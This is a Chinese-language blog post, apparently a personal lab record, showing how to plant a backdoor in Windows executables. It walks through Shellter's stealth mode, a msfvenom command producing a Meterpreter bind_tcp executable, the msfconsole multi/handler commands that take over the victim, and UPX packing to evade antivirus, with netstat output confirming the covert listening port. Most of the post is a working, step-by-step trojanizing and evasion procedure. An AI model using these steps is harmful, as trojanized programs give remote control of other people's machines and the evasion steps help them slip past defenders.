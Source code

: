 ```yaml
---
title: 简单的 PE 后门
date: 2019-07-19 22:57:45
tags:
  - Kali
  - 实践记录
categories:
  - 安全工具
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/ShellterUpx/0.jpg
---
```


记录一下最简单的挂后门和免杀方法，不怎么接触这块。

<!--more-->

主要介绍两个工具：Shellter 和 Upx，后者 Kali 自带。Shellter 的安装略有点复杂，因为需要 wine32 的支持。使用的 Kali 是 64 位的。

首先 `apt install shellter` 应该不会有什么问题，但是启动的时候会提示缺少 wine32，因此执行：

```shell
$ dpkg --add-architecture i386 && apt-get update && apt-get install wine32
```

这一步会花费很长时间，因为 wine 本身很庞大。装完后应该就可以正常使用了。

## 通过 Shellter 篡改 exe 文件

随意取一个 exe 文件作为我们要加入后门的可执行文件。首先启动 shellter，会看到：
![图 1](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/ShellterUpx/0.jpg)

输入 `A` 选择自动模式，随后输入 exe 文件所在路径，程序便会自动运行，分析原文件并插入恶意代码。这个过程大约持续不到一分钟。

输入 `Y` 开启隐蔽模式，随后选择使用它列出的七种 payload 还是自定义，这里我们输入 `L` 选择列出的 payload。

带 `Meterpreter` 前缀的是指可以通过 MSF 获取会话的 payload，方式有正向 `Bind` 与反向 `Reverse` 两种。`Bind` 顾名思义，就是用户打开 exe 后，将会在用户主机上开放一个端口，攻击者去连接那个端口就可以获取会话。`Reverse` 则是反过来，使用户主机连接攻击者开放的端口来获取会话。而带 `Shell` 前缀的 payload 可以直接反弹 shell 给攻击者。

攻击者还可以通过不同的协议来获取会话，比如任意 TCP 协议，HTTP/HTTPS 协议等。这里以选择 4 号 payload `Meterpreter_Bind_TCP` 为例。

最后要求设置 `LPORT` 也就是要在目标主机上打开的端口，只要是没有被占用的端口都可以，比如这里可以设置 `60000` 端口。

完成以后，新的 exe 文件就是已经被植入后门的 exe 文件，相比于原文件，它占空间多了一点，其它地方似乎看不出什么区别。

## 通过 Meterpreter 获取会话

假设目标主机（Windows）获得了新的 exe 文件。在双击打开前，我们查看用 `netstat -an` 查看其已经开放的端口：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

然后我们双击打开，发现和原来的 exe 完全没有区别。再次查看端口情况可以发现，`60000` 端口悄悄开启了：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:60000          0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

接下来我们看看攻击者要怎么操作来获取会话。

首先要确保攻击者和目标主机在同一网段。打开 `msfconsole`。依次输入：

```bash
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set lport 60000
set rhost 192.168.159.128
exploit
```

其中 `rhost` 需要改为目标主机的内网 IP。

这样以后，就可以获取会话，并执行任意命令了（会话的作用不局限于执行 shell 命令）：
![图 2](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/ShellterUpx/1.jpg)

需要注意的是，一旦用户关闭 exe 文件，会话也将随之关闭。因此实际场景中常常配合持久化提权工具使用。

## 使用 msfvenom 直接生成带后门的 PE 文件

上面的例子需要修改一个已有的 exe 文件，这里我们可以直接生成这样的带后门的文件：

```shell
$ msfvenom -p windows/meterpreter/bind_tcp lport=60001 -f exe > test.exe
```

端口号依然可以是任意未被占用的端口。msfvenom 也提供了许多选项实现免杀，这里不一一介绍了。

## 使用 Upx 给程序加壳

这样做的作用主要有两个：压缩文件大小和免杀。然而 Upx 加壳毕竟是最最简单的免杀方法，现在的绝大多数杀毒软件都能轻易脱壳。举个例子，给刚才生成的 exe 文件加壳，只需要：

```shell
$ upx -9 test.exe
```

`-1` 参数压缩得最快，`-9` 参数压缩质量最高。

## 后记

这篇文章叙述的方法是最初级的植入后门的方法，略过了很多有一定难度的细节，详情参见 Shellter/Upx/msfvenom 的文档。
